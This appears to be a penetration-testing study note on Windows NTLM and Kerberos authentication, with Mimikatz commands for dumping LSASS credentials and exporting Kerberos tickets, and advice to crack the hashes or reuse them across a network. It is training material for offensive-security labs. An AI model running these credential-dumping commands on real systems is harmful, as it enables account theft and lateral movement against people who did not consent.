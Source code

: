 ### New Technology LAN Manager (NTLM)

* <mark style="color:yellow;">NTLM is used when a client authenticates to a server by IP address instead of hostname</mark>

### Kerberos

* <mark style="color:yellow;">Kerberos authentication involves the usage of a Domain Controller that is in the role of a Key Distribution Center (KDC).</mark>

### Cached Credential Storage and Completion

* Kerberos makes use of SSO password hashes
* These hashes are stored in memory space known as Local Security Authority Subsystem Service (<mark style="color:yellow;">LSASS</mark>) memory space
* <mark style="color:yellow;">If we are able to gain access to these hashes, we could take them offline and crack them to obtain the cleartext password or reuse them to perform various actions</mark>

### Mimikatz

* Transfer Mimikatz to the Windows host through our SMB server
* We will be running Mimikatz locally
* If it is acting up, it may be due to an Evil-WinRM shell
* Attempt another reverse shell if possible

Usage:

```
.\Mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
```

* This should dump the credentials of all logged-on users using the Sekurlsa module
* Armed with hashes? Crack them offline and pass them around the network.

Dumping tickets in memory:

```
sekurlsa::tickets
```

* If you get a TGT or TGS, this would <mark style="color:yellow;">allow you to access particular resources associated with those tickets</mark>
* <mark style="color:yellow;">Also, if you are armed with a TGT ticket, you could request a TGS for specific resources you want to target within the domain</mark>

```
kerberos::list /export

1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

### Kerberoasting
